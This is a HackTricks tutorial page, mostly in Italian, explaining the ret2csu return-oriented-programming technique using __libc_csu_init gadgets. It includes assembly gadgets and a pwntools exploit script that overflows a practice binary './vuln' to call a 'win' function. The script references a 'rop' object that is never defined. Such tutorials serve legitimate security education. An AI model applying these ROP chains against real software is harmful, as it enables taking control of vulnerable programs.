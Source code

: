 # Ret2csu

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**ret2csu** è una tecnica di hacking utilizzata quando si cerca di prendere il controllo di un programma ma non si riescono a trovare i **gadgets** che si usano di solito per manipolare il comportamento del programma.&#x20;

Quando un programma utilizza determinate librerie (come libc), ha alcune funzioni integrate per gestire come i diversi pezzi del programma comunicano tra loro. Tra queste funzioni ci sono alcune gemme nascoste che possono fungere da gadget mancanti, in particolare una chiamata `__libc_csu_init`.

### The Magic Gadgets in \_\_libc\_csu\_init

In `__libc_csu_init`, ci sono due sequenze di istruzioni (i nostri "gadget magici") che si distinguono:

1. La prima sequenza ci consente di impostare valori in diversi registri (rbx, rbp, r12, r13, r14, r15). Questi sono come slot dove possiamo memorizzare numeri o indirizzi che vogliamo utilizzare in seguito.
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
Questo gadget ci consente di controllare questi registri estraendo valori dallo stack in essi.

2. La seconda sequenza utilizza i valori che abbiamo impostato per fare un paio di cose:
* **Spostare valori specifici in altri registri**, rendendoli pronti per essere utilizzati come parametri nelle funzioni.
* **Eseguire una chiamata a una posizione** determinata sommando i valori in r15 e rbx, quindi moltiplicando rbx per 8.
```
mov rdx, r14;
mov rsi, r13;
mov edi, r12d;
call qword [r15 + rbx*8];
```
## Esempio

Immagina di voler effettuare una syscall o chiamare una funzione come `write()` ma hai bisogno di valori specifici nei registri `rdx` e `rsi` come parametri. Normalmente, cercheresti gadget che impostano direttamente questi registri, ma non riesci a trovarne.

Ecco dove entra in gioco **ret2csu**:

1. **Imposta i Registri**: Usa il primo gadget magico per estrarre valori dallo stack e inserirli in rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx) e r15.
2. **Usa il Secondo Gadget**: Con quei registri impostati, utilizzi il secondo gadget. Questo ti consente di spostare i valori scelti in `rdx` e `rsi` (da r14 e r13, rispettivamente), preparando i parametri per una chiamata di funzione. Inoltre, controllando `r15` e `rbx`, puoi far sì che il programma chiami una funzione situata all'indirizzo che calcoli e posizioni in `[r15 + rbx*8]`.

Hai un [**esempio che utilizza questa tecnica e la spiega qui**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), e questo è l'exploit finale che ha utilizzato:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
Nota che l'exploit precedente non è destinato a fare un **`RCE`**, ma è progettato solo per chiamare una funzione chiamata `win` (prendendo l'indirizzo di `win` dall'input standard chiamando gets nella catena ROP e memorizzandolo in r15) con un terzo argomento con il valore `0xdeadbeefcafed00d`.
{% endhint %}

### Perché Non Usare Direttamente libc?

Di solito, questi casi sono anche vulnerabili a [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/), ma a volte è necessario controllare più parametri di quanti possano essere facilmente controllati con i gadget che trovi direttamente in libc. Ad esempio, la funzione `write()` richiede tre parametri, e **trovare gadget per impostare tutti questi direttamente potrebbe non essere possibile**.

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
